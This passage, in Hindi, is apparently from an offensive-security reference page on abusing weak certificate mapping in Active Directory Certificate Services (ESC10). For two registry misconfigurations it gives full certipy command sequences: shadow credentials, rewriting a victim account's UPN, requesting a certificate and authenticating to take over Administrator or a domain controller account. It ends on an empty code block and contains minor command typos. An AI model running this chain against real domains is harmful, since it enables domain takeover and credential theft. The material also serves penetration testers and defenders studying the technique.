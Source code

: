 **मामला 1**

जब `StrongCertificateBindingEnforcement` को `0` के रूप में कॉन्फ़िगर किया जाता है।

**मामला 2**

यदि `CertificateMappingMethods` में `UPN` बिट (`0x4`) शामिल है।

### दुरुपयोग मामला 1

`StrongCertificateBindingEnforcement` को `0` के रूप में कॉन्फ़िगर करने पर, एक खाता A जिसमें `GenericWrite` अनुमतियाँ हैं, किसी भी खाता B को कंप्रोमाइज़ करने के लिए उपयोग किया जा सकता है।

उदाहरण के लिए, `Jane@corp.local` पर `GenericWrite` अनुमतियाँ होने पर, हमलावर `Administrator@corp.local` को कंप्रोमाइज़ करने का उद्देश्य रखता है। प्रक्रिया ESC9 को मिरर करती है, जिससे किसी भी प्रमाणपत्र टेम्प्लेट का उपयोग किया जा सकता है।

शुरू में, `Jane` की हैश Shadow Credentials का उपयोग करके प्राप्त की जाती है, `GenericWrite` का शोषण करते हुए।
```bash
certipy shadow autho -username John@corp.local -p Passw0rd! -a Jane
```
इसके बाद, `Jane` का `userPrincipalName` `Administrator` में बदल दिया जाता है, `@corp.local` भाग को जानबूझकर छोड़ दिया जाता है ताकि कोई प्रतिबंध उल्लंघन न हो।
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Administrator
```
निम्नलिखित के अनुसार, एक प्रमाणपत्र जो क्लाइंट प्रमाणीकरण सक्षम करता है, `Jane` के रूप में अनुरोधित किया जाता है, डिफ़ॉल्ट `User` टेम्पलेट का उपयोग करके।
```bash
certipy req -ca 'corp-DC-CA' -username Jane@corp.local -hashes <hash>
```
`Jane` का `userPrincipalName` फिर से उसके मूल, `Jane@corp.local` पर वापस किया जाता है।
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Jane@corp.local
```
प्राप्त प्रमाणपत्र के साथ प्रमाणीकरण करने से `Administrator@corp.local` का एनटी हैश प्राप्त होगा, प्रमाणपत्र में डोमेन विवरणों की अनुपस्थिति के कारण कमांड में डोमेन की विशेषीकरण आवश्यक है।
```bash
certipy auth -pfx administrator.pfx -domain corp.local
```
### दुरुपयोग मामला 2

`CertificateMappingMethods` में `UPN` बिट फ्लैग (`0x4`) शामिल होने पर, एक खाता A जिसमें `GenericWrite` अनुमतियाँ हैं, किसी भी खाता B को कंप्रोमाइज कर सकता है जिसमें `userPrincipalName` गुणवत्ता नहीं है, जिसमें मशीन खाते और निर्मित डोमेन प्रशासक `Administrator` शामिल हैं।

यहाँ, लक्ष्य `DC$@corp.local` को कंप्रोमाइज करना है, `Jane` के हैश को शैडो क्रेडेंशियल के माध्यम से प्राप्त करके, `GenericWrite` का लाभ उठाते हुए।
```bash
certipy shadow auto -username John@corp.local -p Passw0rd! -account Jane
```
`Jane` का `userPrincipalName` फिर `DC$@corp.local` पर सेट किया जाता है।
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn 'DC$@corp.local'
```
एक प्रमाणपत्र क्लाइंट प्रमाणीकरण के लिए `Jane` के रूप में `User` टेम्पलेट का अनुरोध किया जाता है।
```bash
certipy req -ca 'corp-DC-CA' -username Jane@corp.local -hashes <hash>
```
`Jane` का `userPrincipalName` इस प्रक्रिया के बाद अपने मूल स्थिति में वापस लौट जाता है।
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn 'Jane@corp.local'
```
कोर्प\डीसी$ के रूप में प्रमाणीकरण सफलता को सूचित करने के लिए, Certipy का `-ldap-shell` विकल्प प्रयोग किया जाता है।
```bash
```
